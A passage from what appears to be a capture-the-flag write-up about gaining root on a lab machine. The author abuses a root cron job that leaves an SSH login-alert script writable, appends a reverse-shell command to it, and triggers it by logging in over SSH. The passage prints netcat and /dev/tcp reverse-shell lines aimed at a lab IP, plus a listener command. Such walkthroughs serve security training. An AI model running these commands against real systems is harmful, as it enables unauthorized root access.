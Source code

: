 - We have to investigate this folder and the script `ssh-alert.sh`  
![image](https://user-images.githubusercontent.com/96747355/167317407-29fe0f28-1b59-4982-ab00-18d9799d402f.png)  
- The script sends an email when someone logs in using ssh.
- We can check the processes with pspy these are interesting and they are launched as root
```
/usr/sbin/CRON -f 
chattr -a /usr/local/sbin/ssh-alert.sh 
cp /root/scripts/ssh-alert.sh /usr/local/sbin/ssh-alert.sh 
chown svc_acc:svc_acc /usr/local/sbin/ssh-alert.sh
rm -r /home/svc_acc/app/uploads/* 
rm -r /home/svc_acc/app/misc/*
```
- So now we know that a process is using chatter to make ssh-alert appendable
- We could append the file with a malicious command and get a reverse shell this way. We would trigger it by connecting through ssh. We have to be fast though because a cron job reverts the files regularly.
- Let's launch a listener `rlwrap nc -lvp 4444`
- *Note: I first tried to append the file with nc `echo 'nc 10.10.14.11 4444 –e /bin/bash' >> ssh-alert.sh` as it was installed in the machine but the shell I caught back did not let me run commands*
- `echo '/bin/bash -i >& /dev/tcp/10.10.14.11/4444 0>&1' >> ssh-alert.sh` This one did the trick
- Then from our machine we connect through ssh
- And finally we catch a root shell and can grab the final flag!!  
![image](https://user-images.githubusercontent.com/96747355/167514748-b43c4f38-c416-4eb2-9276-4bd9f12a9401.png)  

